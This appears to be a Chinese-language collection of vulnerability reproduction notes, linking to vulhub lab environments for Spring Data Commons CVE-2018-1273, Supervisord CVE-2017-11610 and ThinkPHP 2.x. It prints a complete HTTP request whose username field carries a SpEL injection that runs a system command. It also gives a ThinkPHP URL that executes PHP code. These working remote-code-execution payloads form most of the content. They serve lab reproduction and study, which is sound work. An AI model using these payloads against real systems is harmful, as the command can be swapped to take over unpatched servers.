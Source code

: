 ## [漏洞分析](https://xz.aliyun.com/t/2252)

## [漏洞实现](https://cert.360.cn/warning/detail?id=3efa573a1116c8e6eed3b47f78723f12)



# **[Spring Data Commons 远程命令执行漏洞（CVE-2018-1273）](https://vulhub.org/#/environments/spring/CVE-2018-1273/)**


## [漏洞复现](https://xz.aliyun.com/t/2269)

```
POST /users?page=&size=5 HTTP/1.1
Host: localhost:8080
Connection: keep-alive
Content-Length: 124
Pragma: no-cache
Cache-Control: no-cache
Origin: http://localhost:8080
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/64.0.3282.186 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: http://localhost:8080/users?page=0&size=5
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

username[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch /tmp/success")]=&password=&repeatedPassword=
```

# **[Supervisord 远程命令执行漏洞（CVE-2017-11610）](https://vulhub.org/#/environments/supervisor/CVE-2017-11610/)**

# **[ThinkPHP 2.x 任意代码执行漏洞](https://vulhub.org/#/environments/thinkphp/2-rce/)**


## 漏洞复现

直接访问：
```
http://your-ip:8080/index.php?s=/index/index/name/$%7B@phpinfo()%7D即可执行phpinfo()：
```

